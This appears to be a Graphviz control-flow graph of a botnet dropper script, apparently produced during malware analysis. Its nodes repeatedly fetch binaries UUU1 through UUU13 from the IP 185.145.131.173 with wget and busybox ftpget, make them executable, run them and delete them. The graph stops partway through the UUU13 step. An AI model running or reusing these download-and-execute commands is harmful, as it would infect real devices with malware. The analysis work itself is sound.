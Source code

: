 digraph {
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 10 [label="||,"];
10 [label="wget http://185.145.131.173/UUU1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x UUU1 "];
12 -> 48 [label=";,"];
48 [label="./UUU1 "];
48 -> 32 [label=";,"];
32 [label="rm -rf UUU1 "];
32 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 28 [label="||,"];
28 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU1 UUU1 "];
28 -> 30 [label=";,"];
30 [label="chmod +x UUU1 ./UUU1 "];
30 -> 32 [label=";,"];
32 [label="rm -rf UUU1 "];
32 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 44 [label="||,"];
44 [label="/bin/busybox wget http://185.145.131.173/UUU1 "];
44 -> 46 [label=";,"];
46 [label="/bin/busybox chmod +x UUU1 "];
46 -> 48 [label=";,"];
48 [label="./UUU1 "];
48 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf UUU1 "];
66 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 62 [label="||,"];
62 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU1 UUU1 "];
62 -> 64 [label=";,"];
64 [label="/bin/busybox chmod +x UUU1 ./UUU1 "];
64 -> 66 [label=";,"];
66 [label="/bin/busybox rm -rf UUU1 "];
66 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 78 [label="||,"];
78 [label="wget http://185.145.131.173/UUU2 "];
78 -> 80 [label=";,"];
80 [label="chmod +x UUU2 "];
80 -> 116 [label=";,"];
116 [label="./UUU2 "];
116 -> 100 [label=";,"];
100 [label="rm -rf UUU2 "];
100 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 96 [label="||,"];
96 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU2 UUU2 "];
96 -> 98 [label=";,"];
98 [label="chmod +x UUU2 ./UUU2 "];
98 -> 100 [label=";,"];
100 [label="rm -rf UUU2 "];
100 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 112 [label="||,"];
112 [label="/bin/busybox wget http://185.145.131.173/UUU2 "];
112 -> 114 [label=";,"];
114 [label="/bin/busybox chmod +x UUU2 "];
114 -> 116 [label=";,"];
116 [label="./UUU2 "];
116 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf UUU2 "];
134 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 130 [label="||,"];
130 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU2 UUU2 "];
130 -> 132 [label=";,"];
132 [label="/bin/busybox chmod +x UUU2 ./UUU2 "];
132 -> 134 [label=";,"];
134 [label="/bin/busybox rm -rf UUU2 "];
134 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 146 [label="||,"];
146 [label="wget http://185.145.131.173/UUU4 "];
146 -> 148 [label=";,"];
148 [label="chmod +x UUU4 "];
148 -> 184 [label=";,"];
184 [label="./UUU4 "];
184 -> 168 [label=";,"];
168 [label="rm -rf UUU4 "];
168 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 164 [label="||,"];
164 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU4 UUU4 "];
164 -> 166 [label=";,"];
166 [label="chmod +x UUU4 ./UUU4 "];
166 -> 168 [label=";,"];
168 [label="rm -rf UUU4 "];
168 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 180 [label="||,"];
180 [label="/bin/busybox wget http://185.145.131.173/UUU4 "];
180 -> 182 [label=";,"];
182 [label="/bin/busybox chmod +x UUU4 "];
182 -> 184 [label=";,"];
184 [label="./UUU4 "];
184 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf UUU4 "];
202 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 198 [label="||,"];
198 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU4 UUU4 "];
198 -> 200 [label=";,"];
200 [label="/bin/busybox chmod +x UUU4 ./UUU4 "];
200 -> 202 [label=";,"];
202 [label="/bin/busybox rm -rf UUU4 "];
202 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 214 [label="||,"];
214 [label="wget http://185.145.131.173/UUU3 "];
214 -> 216 [label=";,"];
216 [label="chmod +x UUU3 "];
216 -> 252 [label=";,"];
252 [label="./UUU3 "];
252 -> 236 [label=";,"];
236 [label="rm -rf UUU3 "];
236 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 232 [label="||,"];
232 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU3 UUU3 "];
232 -> 234 [label=";,"];
234 [label="chmod +x UUU3 ./UUU3 "];
234 -> 236 [label=";,"];
236 [label="rm -rf UUU3 "];
236 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 248 [label="||,"];
248 [label="/bin/busybox wget http://185.145.131.173/UUU3 "];
248 -> 250 [label=";,"];
250 [label="/bin/busybox chmod +x UUU3 "];
250 -> 252 [label=";,"];
252 [label="./UUU3 "];
252 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf UUU3 "];
270 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 266 [label="||,"];
266 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU3 UUU3 "];
266 -> 268 [label=";,"];
268 [label="/bin/busybox chmod +x UUU3 ./UUU3 "];
268 -> 270 [label=";,"];
270 [label="/bin/busybox rm -rf UUU3 "];
270 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 282 [label="||,"];
282 [label="wget http://185.145.131.173/UUU5 "];
282 -> 284 [label=";,"];
284 [label="chmod +x UUU5 "];
284 -> 320 [label=";,"];
320 [label="./UUU5 "];
320 -> 304 [label=";,"];
304 [label="rm -rf UUU5 "];
304 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 300 [label="||,"];
300 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU5 UUU5 "];
300 -> 302 [label=";,"];
302 [label="chmod +x UUU5 ./UUU5 "];
302 -> 304 [label=";,"];
304 [label="rm -rf UUU5 "];
304 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 316 [label="||,"];
316 [label="/bin/busybox wget http://185.145.131.173/UUU5 "];
316 -> 318 [label=";,"];
318 [label="/bin/busybox chmod +x UUU5 "];
318 -> 320 [label=";,"];
320 [label="./UUU5 "];
320 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf UUU5 "];
338 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 334 [label="||,"];
334 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU5 UUU5 "];
334 -> 336 [label=";,"];
336 [label="/bin/busybox chmod +x UUU5 ./UUU5 "];
336 -> 338 [label=";,"];
338 [label="/bin/busybox rm -rf UUU5 "];
338 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 350 [label="||,"];
350 [label="wget http://185.145.131.173/UUU6 "];
350 -> 352 [label=";,"];
352 [label="chmod +x UUU6 "];
352 -> 388 [label=";,"];
388 [label="./UUU6 "];
388 -> 372 [label=";,"];
372 [label="rm -rf UUU6 "];
372 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 368 [label="||,"];
368 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU6 UUU6 "];
368 -> 370 [label=";,"];
370 [label="chmod +x UUU6 ./UUU6 "];
370 -> 372 [label=";,"];
372 [label="rm -rf UUU6 "];
372 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 384 [label="||,"];
384 [label="/bin/busybox wget http://185.145.131.173/UUU6 "];
384 -> 386 [label=";,"];
386 [label="/bin/busybox chmod +x UUU6 "];
386 -> 388 [label=";,"];
388 [label="./UUU6 "];
388 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf UUU6 "];
406 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 402 [label="||,"];
402 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU6 UUU6 "];
402 -> 404 [label=";,"];
404 [label="/bin/busybox chmod +x UUU6 ./UUU6 "];
404 -> 406 [label=";,"];
406 [label="/bin/busybox rm -rf UUU6 "];
406 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 418 [label="||,"];
418 [label="wget http://185.145.131.173/UUU7 "];
418 -> 420 [label=";,"];
420 [label="chmod +x UUU7 "];
420 -> 456 [label=";,"];
456 [label="./UUU7 "];
456 -> 440 [label=";,"];
440 [label="rm -rf UUU7 "];
440 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 436 [label="||,"];
436 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU7 UUU7 "];
436 -> 438 [label=";,"];
438 [label="chmod +x UUU7 ./UUU7 "];
438 -> 440 [label=";,"];
440 [label="rm -rf UUU7 "];
440 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 452 [label="||,"];
452 [label="/bin/busybox wget http://185.145.131.173/UUU7 "];
452 -> 454 [label=";,"];
454 [label="/bin/busybox chmod +x UUU7 "];
454 -> 456 [label=";,"];
456 [label="./UUU7 "];
456 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf UUU7 "];
474 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 470 [label="||,"];
470 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU7 UUU7 "];
470 -> 472 [label=";,"];
472 [label="/bin/busybox chmod +x UUU7 ./UUU7 "];
472 -> 474 [label=";,"];
474 [label="/bin/busybox rm -rf UUU7 "];
474 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 486 [label="||,"];
486 [label="wget http://185.145.131.173/UUU8 "];
486 -> 488 [label=";,"];
488 [label="chmod +x UUU8 "];
488 -> 524 [label=";,"];
524 [label="./UUU8 "];
524 -> 508 [label=";,"];
508 [label="rm -rf UUU8 "];
508 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 504 [label="||,"];
504 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU8 UUU8 "];
504 -> 506 [label=";,"];
506 [label="chmod +x UUU8 ./UUU8 "];
506 -> 508 [label=";,"];
508 [label="rm -rf UUU8 "];
508 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 520 [label="||,"];
520 [label="/bin/busybox wget http://185.145.131.173/UUU8 "];
520 -> 522 [label=";,"];
522 [label="/bin/busybox chmod +x UUU8 "];
522 -> 524 [label=";,"];
524 [label="./UUU8 "];
524 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf UUU8 "];
542 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 538 [label="||,"];
538 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU8 UUU8 "];
538 -> 540 [label=";,"];
540 [label="/bin/busybox chmod +x UUU8 ./UUU8 "];
540 -> 542 [label=";,"];
542 [label="/bin/busybox rm -rf UUU8 "];
542 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 554 [label="||,"];
554 [label="wget http://185.145.131.173/UUU9 "];
554 -> 556 [label=";,"];
556 [label="chmod +x UUU9 "];
556 -> 592 [label=";,"];
592 [label="./UUU9 "];
592 -> 576 [label=";,"];
576 [label="rm -rf UUU9 "];
576 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 572 [label="||,"];
572 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU9 UUU9 "];
572 -> 574 [label=";,"];
574 [label="chmod +x UUU9 ./UUU9 "];
574 -> 576 [label=";,"];
576 [label="rm -rf UUU9 "];
576 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 588 [label="||,"];
588 [label="/bin/busybox wget http://185.145.131.173/UUU9 "];
588 -> 590 [label=";,"];
590 [label="/bin/busybox chmod +x UUU9 "];
590 -> 592 [label=";,"];
592 [label="./UUU9 "];
592 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf UUU9 "];
610 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 606 [label="||,"];
606 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU9 UUU9 "];
606 -> 608 [label=";,"];
608 [label="/bin/busybox chmod +x UUU9 ./UUU9 "];
608 -> 610 [label=";,"];
610 [label="/bin/busybox rm -rf UUU9 "];
610 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 622 [label="||,"];
622 [label="wget http://185.145.131.173/UUU10 "];
622 -> 624 [label=";,"];
624 [label="chmod +x UUU10 "];
624 -> 660 [label=";,"];
660 [label="./UUU10 "];
660 -> 644 [label=";,"];
644 [label="rm -rf UUU10 "];
644 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 640 [label="||,"];
640 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU10 UUU10 "];
640 -> 642 [label=";,"];
642 [label="chmod +x UUU10 ./UUU10 "];
642 -> 644 [label=";,"];
644 [label="rm -rf UUU10 "];
644 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 656 [label="||,"];
656 [label="/bin/busybox wget http://185.145.131.173/UUU10 "];
656 -> 658 [label=";,"];
658 [label="/bin/busybox chmod +x UUU10 "];
658 -> 660 [label=";,"];
660 [label="./UUU10 "];
660 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf UUU10 "];
678 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 674 [label="||,"];
674 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU10 UUU10 "];
674 -> 676 [label=";,"];
676 [label="/bin/busybox chmod +x UUU10 ./UUU10 "];
676 -> 678 [label=";,"];
678 [label="/bin/busybox rm -rf UUU10 "];
678 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 690 [label="||,"];
690 [label="wget http://185.145.131.173/UUU11 "];
690 -> 692 [label=";,"];
692 [label="chmod +x UUU11 "];
692 -> 728 [label=";,"];
728 [label="./UUU11 "];
728 -> 712 [label=";,"];
712 [label="rm -rf UUU11 "];
712 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 708 [label="||,"];
708 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU11 UUU11 "];
708 -> 710 [label=";,"];
710 [label="chmod +x UUU11 ./UUU11 "];
710 -> 712 [label=";,"];
712 [label="rm -rf UUU11 "];
712 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 724 [label="||,"];
724 [label="/bin/busybox wget http://185.145.131.173/UUU11 "];
724 -> 726 [label=";,"];
726 [label="/bin/busybox chmod +x UUU11 "];
726 -> 728 [label=";,"];
728 [label="./UUU11 "];
728 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf UUU11 "];
746 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 742 [label="||,"];
742 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU11 UUU11 "];
742 -> 744 [label=";,"];
744 [label="/bin/busybox chmod +x UUU11 ./UUU11 "];
744 -> 746 [label=";,"];
746 [label="/bin/busybox rm -rf UUU11 "];
746 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 758 [label="||,"];
758 [label="wget http://185.145.131.173/UUU12 "];
758 -> 760 [label=";,"];
760 [label="chmod +x UUU12 "];
760 -> 796 [label=";,"];
796 [label="./UUU12 "];
796 -> 780 [label=";,"];
780 [label="rm -rf UUU12 "];
780 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 776 [label="||,"];
776 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU12 UUU12 "];
776 -> 778 [label=";,"];
778 [label="chmod +x UUU12 ./UUU12 "];
778 -> 780 [label=";,"];
780 [label="rm -rf UUU12 "];
780 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 792 [label="||,"];
792 [label="/bin/busybox wget http://185.145.131.173/UUU12 "];
792 -> 794 [label=";,"];
794 [label="/bin/busybox chmod +x UUU12 "];
794 -> 796 [label=";,"];
796 [label="./UUU12 "];
796 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf UUU12 "];
814 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 810 [label="||,"];
810 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU12 UUU12 "];
810 -> 812 [label=";,"];
812 [label="/bin/busybox chmod +x UUU12 ./UUU12 "];
812 -> 814 [label=";,"];
814 [label="/bin/busybox rm -rf UUU12 "];
814 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 826 [label="||,"];
826 [label="wget http://185.145.131.173/UUU13 "];
826 -> 828 [label=";,"];
828 [label="chmod +x UUU13 "];
828 -> 864 [label=";,"];
864 [label="./UUU13 "];
864 -> 848 [label=";,"];
848 [label="rm -rf UUU13 "];
848 -> 834 [label=";,"];
834 [label="cd /tmp "];
834 -> 834
836 [label="cd /var/run "];
836 -> 838 [label="||,"];
838 [label="cd /mnt "];
838 -> 840 [label="||,"];
840 [label="cd /root "];
840 -> 842 [label="||,"];
842 [label="cd / "];
842 -> 844 [label="||,"];
844 [label="ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 UUU13 UUU13 "];
844 -> 846 [label=";,"];
846 [label="chmod +x UUU13 ./UUU13 "];
846 -> 848 [label=";,"];
